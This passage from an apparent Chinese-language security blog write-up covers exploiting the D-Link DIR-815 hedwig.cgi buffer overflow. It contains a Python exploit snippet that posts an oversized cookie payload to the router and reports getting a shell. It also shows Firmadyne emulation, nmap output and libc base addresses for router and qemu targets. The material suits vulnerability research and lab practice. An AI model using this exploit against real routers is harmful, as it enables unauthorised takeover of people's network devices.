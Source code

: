 ```

    cookie='uid=' + get_payload(973, 0x77f34000)
    header = `{`
        'Cookie'        : cookie,
        'Content-Type'  : 'application/x-www-form-urlencoded',
        'Content-Length': '100'
        `}`
    data = `{`'uid':'1234'`}`
    ip_port=sys.argv[1]
    url="http://"+ip_port+"/hedwig.cgi"
    r=requests.post(url=url,headers=header,data=data)
    print r.text
```

测试结果：获取shell

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://pup2y.github.io/2020/05/22/dir815-huan-chong-qu-yi-chu-lou-dong-zai-fen-xi/http_getshell_sleep.png)



## Firmadyne仿真及实体机测试

Firmadyne的安装过程这里就不再继续介绍，这里是用它来测试，能够启动起来。并且访问firmadyne给其分配的默认web接口192.168.0.1。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://pup2y.github.io/2020/05/22/dir815-huan-chong-qu-yi-chu-lou-dong-zai-fen-xi/firmadyne.png)

nmap扫描查看开放的端口，目前3各端口分别对应dns53,http80,upnp49152。

```
Starting Nmap 7.01 ( https://nmap.org ) at 2020-05-24 16:21 CST
Nmap scan report for 192.168.0.1
Host is up (0.00041s latency).
Not shown: 997 closed ports
PORT      STATE SERVICE VERSION
53/tcp    open  domain  dnsmasq 2.45
80/tcp    open  http    D-Link DIR-815 WAP http config 1.01
49152/tcp open  upnp    D-Link DIR-815 WAP UPnP 1.01 (UPnP 1.0)
MAC Address: 52:54:00:12:34:58 (QEMU virtual NIC)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6.32
OS details: Linux 2.6.32
Network Distance: 1 hop
Service Info: OS: Linux; Device: WAP; CPE: cpe:/h:dlink:dir-815:1.01, cpe:/o:linux:linux_kernel, cpe:/h:d-link:dir-815
```

构造exp进行测试

其实这里需要跟之前qemu系统模式一样，上传gdbsever进行调试确定偏移和libc基地址。这里直接利用师傅帖子中的代码进行测试。这里的基地址是根据firmadyne中用linux内核版本为2.6.32，别的帖子中测试的基地址为0x2aaf8000，并且metasploit里面的[payload](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/linux/http/dlink_hedwig_cgi_bof.rb)写到：路由器环境中基地址为0x2aaf8000，qemu环境为0x40854000。两个可以都试试！
